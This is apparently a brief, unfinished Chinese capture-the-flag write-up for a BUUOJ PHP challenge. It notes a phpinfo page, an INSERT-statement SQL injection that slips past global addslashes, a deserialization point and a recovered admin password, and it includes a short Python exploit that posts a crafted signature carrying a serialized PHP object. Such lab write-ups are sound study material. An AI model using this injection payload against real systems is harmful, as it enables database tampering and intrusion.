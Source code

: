 # 施工中
	- 全局addslashes
	- admin可以任意写
	- 可以直接在`http://a14e8d76-08ad-45ed-8c53-f9d57a00c8ca.node4.buuoj.cn:81/views/login`看到views的源码
	- phpino: `http://a14e8d76-08ad-45ed-8c53-f9d57a00c8ca.node4.buuoj.cn:81/index.php?action=phpinfo`
	- db存在sql注入
		- 因为全局addslashes, 需要找~~整数注入~~ ~~二次注入！~~
	- INSERT处可以注入！
		- config.php
			- `get-column`: `["a", "b"]` --> ``"`a`, `b`"``
			- 然后insert处将反引号包裹转成引号
				- ``$value = '('.preg_replace('/`([^`,]+)`/','\'${1}\'',$this->get_column($values)).')';``
		- exp
			- ```python
			  mood = enc_dec.urldecode("O%3A4%3A%22Mood%22%3A3%3A%7Bs%3A4%3A%22mood%22%3Bi%3A1%3Bs%3A2%3A%22ip%22%3Bs%3A9%3A%22127.0.0.1%22%3Bs%3A4%3A%22date%22%3Bi%3A1697890484%3B%7D")
			  sig = "114`,`{}`)#".format(mood)
			  print(sig)
			  r = requests.post(url, params = {"action": "publish"}, cookies = {"PHPSESSID": "pt6m8pjtc21u3qiqbrfcdssiv4"}, data = {
			      "signature": sig,
			      "mood": "114"
			  })
			  print(r.text)
			  ```
	- admin密码：`jaivypassword`
	- 看到反序列化点：从数据库中取出数据并反序列化